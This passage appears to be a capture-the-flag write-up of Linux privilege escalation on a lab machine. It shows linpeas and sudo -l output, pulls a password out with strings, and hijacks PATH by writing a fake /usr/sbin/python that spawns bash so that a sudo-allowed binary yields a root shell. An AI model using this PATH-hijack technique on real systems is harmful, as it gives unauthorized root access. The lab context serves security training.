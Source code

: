 Let's look for another privilege escalation vector. Try the usual: sudo -l; SUID binaries; PATH manipulation; etc.

I'll use linpeas again, just for commodity's sake.

Linpeas spitted this out:
```
[+] PATH
[i] Any writable folder in original PATH? (a new completed path will be exported)                                                
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin                                                                     
New path exported: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
This means we can write to "/usr/sbin"
```
Orka@osboxes:~$ sudo -l
sudo -l
Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
```
"sudo -l" returned "/home/Orka/Desktop/bitcoin"

Running "strings" on the bitcoin file:
```
t$,U
[^_]
Enter the password : 
password
Access Denied... 
Access Granted...
```
The password to run the file, is "password".

```
Orka@osboxes:~/Desktop$ which python
which python
/usr/bin/python
```

Our writable path, /usr/sbin/, has a higher precedence in this case than the python default of /usr/bin/.

We can use this to our advantage and escalate our privileges.
```
Orka@osboxes:~/Desktop$ cat > /usr/sbin/python << EOF
cat > /usr/sbin/python << EOF
> #!/bin/bash
#!/bin/bash
> /bin/bash
/bin/bash
> EOF
EOF
Orka@osboxes:~/Desktop$ chmod +x /usr/sbin/python
chmod +x /usr/sbin/python
Orka@osboxes:~/Desktop$ sudo /home/Orka/Desktop/bitcoin
sudo /home/Orka/Desktop/bitcoin
Enter the password : password
password
Access Granted...
                        User Manual:
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
```